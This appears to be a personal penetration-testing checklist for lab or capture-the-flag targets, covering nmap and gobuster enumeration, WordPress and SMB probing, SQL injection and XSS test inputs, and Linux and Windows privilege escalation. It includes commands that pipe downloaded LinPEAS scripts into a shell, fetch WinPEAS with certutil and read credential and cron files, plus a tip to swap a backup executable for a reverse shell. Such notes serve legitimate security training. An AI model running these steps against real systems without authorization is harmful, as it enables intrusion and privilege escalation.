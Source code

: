 # Methodology


## Initial Discovery

1) If you don't know where the target lives, use `netdiscover` to find it

```
sudo netdiscover -i eth0
```

2) Enumerate TCP ports on the target with `nmap`

```
nmap -Pn -v -p- -T4 ${TARGET_HOST}
```

2) Enumerate UDP ports on the target with `nmap`

```
nmap -v -sU -F -T4 ${TARGET_HOST}
```

> The `-F` option will do only the top 100 common UDP ports... (UDP scans are slow)


3) Get service fingerprint info with `nmap`

```
nmap -Pn -v -p ${PORTS_FROM_2} -T4 -A ${TARGET_HOST}
```

4) Take notes of `nmap`'s results

- Any service / versions available
- For HTTP Servers:
  - Any relevant HTTP headers
  - Any hits in robots.txt

## Webserver Enumeration

5) **ALWAYS** check for a `robots.txt` file... usually it will quickly give away some routes (faster than waiting for automated enumeration).

6) Enumerate webserver paths with `gobuster`:

```
gobuster dir -u ${TARGET_URL} -w ${WORDLIST_PATH}
```

Some useful options:

- `-f` will append a trailing slash to all words (`/`)
- `-x '.php,.txt'` will append strings to all words

## Webserver Enumeration (WordPress)

1) Run `wpscan` to determine what plugins/themes/etc are present:

```
wpscan --url ${TARGET}/${WORDPRESS_PATH} --enumerate p
```

## Webserver Form Tampering

7) **ALWAYS** try a handful of well-known bad username+password combinations e.g. `admin:admin`, `admin:password`, ...

8) **ALWAYS** try special characeters like `'` which could reveal the possibility of SQL injection

9) **ALWAYS** try script tags like `<script>alert('hello')</script>` that could reveal the possibility of XSS

...

## Webserver Exploits

1) **ALWAYS** try it before reading the code... to save time

2) If it doesn't work chances are you need to change the code

3) If it still doesn't work, read the code thoroughly. Sometimes the code assumes too much about the target application e.g. that it is hosting the target page / functionality under a certain path.

## SMB Server Enumeration

1) Find unauthenticated SMB shares

```
smbclient -L ${TARGET} -N
```

2) Try connecting to a share

```
smbclient \\\\${TARGET}\\${SHARE_NAME}
```

3) Download files (once in an SMB prompt) (e.g. `smb: \>`)

```
get ${FILENAME}
```

## Privilege Escalation (Linux)

> Quick Notes:
>
> - Print real and effective user and group IDs: `id`
> - Print system information: `uname`
> - Print all cron jobs: `cat /etc/crontab`
> - Print all users `cat /etc/passwd`
> - List commands allowed using sudo: `sudo -l`
> - Find all suid and guid binaries: `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

1) Check if you can run any commands as sudo

```
sudo -l
```

Check any hits against [GTFOBins](https://gtfobins.github.io/) to see if the command can be used to get a root shell.

(Pick the "Sudo" function in GTFOBins)

2) Always check for SUID (and GUID) binaries first

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

Check them against [GTFOBins](https://gtfobins.github.io/) to see if the command can be used to get a root shell.

(Pick the "SUID" function in GTFOBins)

3) Check for cron jobs running with root privilages

```
cat /etc/crontab
```

4) Run LinPEAS

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

If no cURL on the system try for wget

```
wget -O- https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

5) Run [`pspy`](https://github.com/DominicBreuker/pspy)

```
./pspy64 -pf -i 1000
```

## Privilege Escalation (Windows)

1) Check your privileges

```
whoami /priv
```

2) Check for a `Backup` dir on the C drive. Sometimes there are scheduled backup jobs running as Administrator. If yes, replace the executable with a reverse shell.

3) Run WinPEAS

```
certutil.exe -urlcache -f https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe winpeasany.exe
```

```
winpeasany.exe
```